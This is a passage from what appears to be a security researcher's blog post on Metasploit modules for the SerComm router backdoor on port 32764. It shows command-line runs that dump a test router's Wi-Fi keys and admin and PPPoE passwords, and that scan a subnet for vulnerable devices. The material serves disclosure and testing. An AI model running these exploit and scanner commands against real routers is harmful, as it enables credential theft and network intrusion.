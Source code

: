 ```
➜  ~  msfcli auxiliary/admin/misc/sercomm_dump_config RHOST=192.168.1.1 E
[*] Initializing modules...
RHOST => 192.168.1.1
[*] 192.168.1.1:32764 - Attempting to connect and check endianess...
[+] 192.168.1.1:32764 - Big Endian device found...
[*] 192.168.1.1:32764 - Attempting to connect and dump configuration...
[*] 192.168.1.1:32764 - Router configuration dump stored in: /Users/mandreko/.msf4/loot/20140113231717_default_192.168.1.1_router.config_104290.txt
[*] 192.168.1.1:32764 - Wifi SSID: Netgear15
[*] 192.168.1.1:32764 - Wifi Key 1: 2A17B75F3D
[*] 192.168.1.1:32764 - Wifi Key 2: C65EFCF158
[*] 192.168.1.1:32764 - Wifi Key 3: 3066C6DDE6
[*] 192.168.1.1:32764 - Wifi Key 4: 1F397B65CA
[*] 192.168.1.1:32764 - HTTP Web Management: User: admin Pass: password
[*] 192.168.1.1:32764 - PPPoE: User: mandreko_dsl Pass: isreallysecure1
[*] 192.168.1.1:32764 - PPPoA: User: mandreko_dsl Pass: isreallysecure1
[*] Auxiliary module execution completed
```

Just tonight, I found that in some of the refactoring we did, the credential collection actually broke, so I made a [pull-request](https://github.com/rapid7/metasploit-framework/pull/2878) to fix it (in case anyone wants to try it before it's merged to trunk). The above output was using the newer code.

## The Scanner Module

So we can dump the nvram configuration of a device. But what good is that if you're unable to find vulnerable devices on the network? In came module number two, the scanner, which could scan all sorts of network ranges. In the below sample, I scanned my test network for the vulnerability, and it found my device, and detected the endianness it was communicating over. You see, MIPS, unlike x86, which is always little endian, can be big or little endian, depending on the processor. Some can even be both, I'm told. However, you need to know which, to know how to communicate with the device. You can start to see how learning MIPS was going to be fun.

```
➜  ~  msfcli auxiliary/scanner/misc/sercomm_backdoor_scanner RHOSTS=192.168.1.0/24 THREADS=64 E
[*] Initializing modules...
RHOSTS => 192.168.1.0/24
THREADS => 64
[+] 192.168.1.1:32764 - Possible backdoor detected - Big Endian
[*] Scanned 036 of 256 hosts (014% complete)
[*] Scanned 058 of 256 hosts (022% complete)
[*] Scanned 083 of 256 hosts (032% complete)
[*] Scanned 105 of 256 hosts (041% complete)
[*] Scanned 129 of 256 hosts (050% complete)
[*] Scanned 157 of 256 hosts (061% complete)
[*] Scanned 196 of 256 hosts (076% complete)
[*] Scanned 205 of 256 hosts (080% complete)
[*] Scanned 233 of 256 hosts (091% complete)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```
